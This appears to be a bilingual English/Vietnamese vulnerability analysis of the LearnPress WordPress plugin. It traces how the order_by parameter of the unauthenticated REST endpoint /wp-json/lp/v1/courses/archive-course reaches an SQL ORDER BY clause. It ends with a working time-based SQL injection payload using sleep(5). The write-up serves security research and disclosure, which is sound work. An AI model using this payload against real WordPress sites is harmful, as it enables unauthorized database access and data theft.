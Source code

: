 The function is diff at

```php
public static function handle_params_for_query_courses( LP_Course_Filter &$filter, array $param = [] ) {
	...
	
	$filter->order_by = 
	LP_Helper::sanitize_params_submitted 
	(! empty( $param['order_by'] ) ? $param['order_by'] : 'post_date' );
}
```

Which we can trace back from 

trace ngược lại 

```php
public function list_courses( WP_REST_Request $request ): LP_REST_Response {
		$response            = new LP_REST_Response();
		$response->data      = new stdClass();
		$listCoursesTemplate = ListCoursesTemplate::instance();
		$pagination_type     = LP_Settings::get_option( 'course_pagination_type' );

		try {
			$filter = new LP_Course_Filter();
			Courses::handle_params_for_query_courses( $filter, $request->get_params() );
```

Which trace back to rest route

trace sẽ được 

```php

				array(
					'methods'             => WP_REST_Server::ALLMETHODS,
					'callback'            => array( $this, 'list_courses' ),
					'permission_callback' => '__return_true',
					'args'                => [],
				),
			),
```

And called from endpoint

```php
/wordpress/wp-json/lp/v1/courses/archive-course
```

Remember the list course function , it will call to 

hãy nhớ rằng hàm `list_courses,` sẽ gọi đến `LP_Course::get_courses`

```php
public function list_courses( WP_REST_Request $request ): LP_REST_Response {
		$response            = new LP_REST_Response();
		$response->data      = new stdClass();
		$listCoursesTemplate = ListCoursesTemplate::instance();
		$pagination_type     = LP_Settings::get_option( 'course_pagination_type' );

		try {
			$filter = new LP_Course_Filter();
			Courses::handle_params_for_query_courses( $filter, $request->get_params() );

			// Check is in category page.
			if ( ! empty( $request->get_param( 'page_term_id_current' ) ) &&
				empty( $request->get_param( 'term_id' ) ) ) {
				$filter->term_ids[] = $request->get_param( 'page_term_id_current' );
			} // Check is in tag page.
			elseif ( ! empty( $request->get_param( 'page_tag_id_current' ) ) &&
					empty( $request->get_param( 'tag_id' ) ) ) {
				$filter->tag_ids[] = $request->get_param( 'page_tag_id_current' );
			}

			$total_rows = 0;
			$filter     = apply_filters( 'lp/api/courses/filter', $filter, $request );
			// call to get_course
 			$courses     = LP_Course::get_courses( $filter, $total_rows );
```

The get_courses function which will call to get_course function

Hàm  `get_courses` sẽ gọi đến hàm **`get_courses`**

```php
public static function get_courses( LP_Course_Filter $filter, int &$total_rows = 0 ) {
			$lp_course_db = LP_Course_DB::getInstance();
			...
			**$courses = LP_Course_DB::getInstance()->get_courses( $filter, $total_rows );**
```

Which will call to LP_Course_DB method get_courses

Sau khi gọi hàm  **`get_courses`,**  hàm sẽ trả về `execute`

```php
public function get_courses( LP_Course_Filter $filter, int &$total_rows = 0 ) {
		$default_fields = $filter->all_fields;
		$filter->fields = array_merge( $default_fields, $filter->fields );
		
		... 
		return $this->execute( $filter, $total_rows );
```

Call to execute method

Hàm `execcute` sẽ trả về 1 câu truy vấn

```php
public function execute( LP_Filter $filter, int &$total_rows = 0 ) {
		$result = null;
		...
		
		$result = $this->wpdb->get_results( $query );
```

Which we will see a payload as 

sử dụng sleep(5 )  SQLi để chèn payload 

```

SELECT DISTINCT(ID) AS ID FROM wp_posts AS p
		
WHERE 1=1 AND p.post_type = 'lp_course' AND p.post_status IN ('publish')
		
ORDER BY -sleep(5)-- DESC 
LIMIT 0, 10
		
```

⇒ SQL injection
